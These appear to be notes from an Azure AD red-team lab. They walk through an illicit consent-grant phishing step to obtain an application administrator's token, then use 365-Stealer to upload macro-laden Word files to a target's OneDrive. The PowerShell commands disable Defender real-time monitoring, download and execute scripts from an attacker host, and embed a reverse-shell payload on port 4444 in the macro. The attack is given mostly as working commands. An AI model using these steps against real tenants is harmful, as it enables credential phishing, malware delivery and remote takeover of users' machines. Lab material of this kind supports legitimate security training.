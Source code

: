 

We need to target an Application Administrator to grant consent for better permissions.

> Ideally, we have to target all the users

We need to register a new app (or modify an existing one) and now request permissions that need admin consent:
```
mail.read
notes.read.all
mailboxsettings.readwrite
files.readwrite.all
mail.send
```

Generate a new link using 'Read More' on [https://localhost](https://localhost) and send an email to the user containing that link (Remember to change the client ID if you register a new application):

Once the user simulation grants consent, we will get the access token of the application administrator.


Using the access token of the application administrator, we can use 365-stealer to upload macro-infested doc files to the user's OneDrive.

- The user simulation will open these macro-infested Word files and execute the macro.

A licensed version of Office 365 is available to create doc files

```powershell
$passwd = ConvertTo-SecureString "password" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("office-vm\administrator", $passwd)
$officeVM = New-PSSession -ComputerName <ip> -Credential $creds
Enter-PSSession -Session $officeVM
```

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
IEX (New-Object Net.Webclient).downloadstring("http://<ip>:82/Out-Word.ps1")
Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadstring('http://<ip>:82/Invoke-PowerShellTcp.ps1');Power -Reverse -IPAddress <ip> -Port 4444" -OutputFile studentx.doc
Copy-Item -FromSession $officeVM -Path C:\Users\Administrator\Documents\studentx.doc -Destination C:\AzAD\Tools\studentx.doc
```



- Start a listener

On the VM, use the 365-stealer web console or CLI to upload the doc to the OneDrive of `target@tenant.onmicrosoft.com`.

```powershell
python C:\xampp\htdocs\365-Stealer\365-Stealer.py --refresh-user target@tenant.onmicrosoft.com --upload C:\AzAD\Tools\studentx.doc
```


## Azure App Service
